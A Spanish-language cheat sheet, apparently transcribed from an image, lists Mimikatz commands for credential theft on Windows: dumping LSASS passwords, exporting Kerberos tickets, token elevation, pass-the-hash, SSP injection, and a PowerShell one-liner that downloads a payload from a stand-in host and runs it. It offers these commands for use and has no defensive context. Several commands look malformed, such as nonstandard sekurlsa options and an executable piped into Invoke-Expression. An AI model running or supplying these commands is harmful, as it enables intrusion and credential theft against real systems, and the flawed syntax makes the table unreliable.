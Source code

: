 

| Tarea                                          | Comando                                                      |
|------------------------------------------------|--------------------------------------------------------------|
| Extracción de Credenciales en Texto Plano      | `mimikatz.exe "sekurlsa::logonpasswords"`                   |
| Extracción de Credenciales de LSASS            | `mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"` |
| Extracción de Credenciales de Kerberos         | `mimikatz.exe "sekurlsa::tickets /export"`                 |
| Manipulación de Tokens                         | `mimikatz.exe "token::elevate"`                            |
| Dump de Credenciales de Procesos Específicos   | `mimikatz.exe "sekurlsa::process /name:lsass.exe" "sekurlsa::logonpasswords"` |
| Inyectar Credenciales en otro Proceso          | `mimikatz.exe "sekurlsa::pth /user:username /domain:domain /ntlm:NTLMhash /run:command"` |
| Mostrar Información sobre Credenciales en Hash | `mimikatz.exe "sekurlsa::tickets /export" "sekurlsa::crypto"` |
| Inyectar Mimikatz en LSASS                    | `mimikatz.exe "misc::memssp"`                              |
| Escuchar Contraseñas de Forma Continua         | `mimikatz.exe "sekurlsa::eventlog /unkeyed"`              |
| Descargar y Ejecutar Mimikatz Remotamente     | `powershell -c "(New-Object Net.WebClient).DownloadString('http://example.com/mimikatz.exe') | Invoke-Expression"` |
